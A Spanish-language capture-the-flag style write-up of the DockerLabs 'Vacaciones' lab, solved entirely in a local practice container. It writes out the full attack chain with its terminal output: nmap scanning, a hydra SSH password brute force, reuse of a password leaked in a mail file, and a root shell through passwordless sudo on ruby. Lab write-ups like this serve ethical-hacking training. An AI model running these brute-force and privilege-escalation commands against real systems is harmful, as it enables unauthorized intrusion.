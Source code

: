 ```yaml
---
title: Vacaciones
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-01-04
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-vacaciones/vacaciones_logo.png
categories:
  - Docker_Labs
tags:
  - linux
  - dockerlabs
  - ssh
  - http
  - tcp
  - data_leaks
  - password_attacks
  - sudo_abuse
  - information_gathering
  - web_analysis
  - lateral_movement
  - privilege_escalation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ ping -c 1 127.17.0.2
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.062 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.062/0.062/0.062/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn -oG nmap1 127.17.0.2
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 22/open/tcp//ssh///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ sudo nmap -sCV -p22,80 -vvv -oN nmap2 127.17.0.2
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzT6jdfo9QUX+9zCmyJQNTcAJXdhXByneCfqA9I7cXPBFGDGgxNAfQdoiqH3EMiTjf+maPlCNyVHGFl+sClQa5sJwdrbWZiJPxfxGkCtWiSrRdKKUKt/7rCMKMOy79bFRvurgss+57tsglfXkE9FPkZGd3mLruXt5Lyb+8uhFWpW58Df6ZUoSsJi7n0bkXNpEzJAzYHNmRRtv0RsGDFosi/t5KUCMPX67jbM8jsApIVwFIQBTiwzwGQn33G2ZoAJy/NYZ9dkuN2cKM2uItovo25daA+0/SxEfHqAHGquvoMKSj8pcX3qZVD7cGWlsn9c5QNzHRC2DZUSHrK7UIaG0r
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMD2Z/ZotorXbs6zP9Sg9XenjSX0HIjYjoEH2cAV7aDoQXZKrssz5AJ98j8b4ntOPGfVehrcRv9X7lKswOea9HM=
|   256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK/0ZadHoPSGKg31xFAhPaX854MMS09s5JgdzqmD3jCl
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[127.17.0.2]
```

---
## Web Analysis

Al analizar la página web, inicialmente parece estar completamente vacía. 

![](assets/img/dockerlabs-writeup-vacaciones/vacaciones1.png)

Sin embargo, al inspeccionar el código fuente, encuentro el siguiente comentario:

![](assets/img/dockerlabs-writeup-vacaciones/vacaciones2.png)

Este comentario sugiere dos posibles nombres de usuario ```Juan``` y ```Camilo```. Dado que no hay más pistas disponibles, decido enfocar la prueba en el servicio SSH para intentar un ataque de fuerza bruta utilizando uno de los nombres.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ sudo hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10 -I
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
```

![](assets/img/dockerlabs-writeup-vacaciones/vacaciones3.png)

El ataque tiene éxito y obtengo las credenciales SSH.

```terminal
/home/kali/Documents/dockerlabs/vacaciones:-$ ssh camilo@127.17.0.2
camilo@127.17.0.2's password: 
$ id
uid=1001(camilo) gid=1001(camilo) groups=1001(camilo)
```

---
## User pivoting

Inicio una shell interactiva.

```terminal
$ script /dev/null -c /bin/bash
```

Analizo los usuarios disponibles en el sistema que tienen acceso a una shell.

Además, verifico usuarios configurados con ```sh``` como su shell:

```terminal
camilo@kali:~$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash

camilo@kali:~$ cat /etc/passwd | grep /sh$
juan:x:1000:1000::/home/juan:/bin/sh
camilo:x:1001:1001::/home/camilo:/bin/sh
pedro:x:1002:1002::/home/pedro:/bin/sh
```

Dentro del directorio de correo de Camilo ```/var/mail/camilo```, descubro un archivo de texto que contiene un mensaje con información importante.

```terminal
camilo@kali:~$ cat /var/mail/camilo/correo.txt 
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```

Este mensaje revela una contraseña asociada al usuario ```Juan```.

```terminal
camilo@kali:~$ su juan
Password: 2k84dicb

$ id
uid=1000(juan) gid=1000(juan) groups=1000(juan)
```

---
## Privilege Escalation

Inicio una shell interactiva.

```terminal
$ script /dev/null -c /bin/bash
```

El usuario ```juan``` puede ejecutar el binario ```/usr/bin/ruby``` como ```root``` sin necesidad de proporcionar una contraseña.

```terminal
juan@kali:~$ sudo -l
Matching Defaults entries for juan on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on kali:
    (ALL) NOPASSWD: /usr/bin/ruby
```

Según [GTFOBins](https://gtfobins.github.io/gtfobins/ruby/#sudo), el binario ```/usr/bin/ruby``` permite ejecutar comandos arbitrarios como superusuario.

```terminal
juan@kali:~$ sudo ruby -e 'exec "/bin/sh"'
# id
uid=0(root) gid=0(root) groups=0(root)
```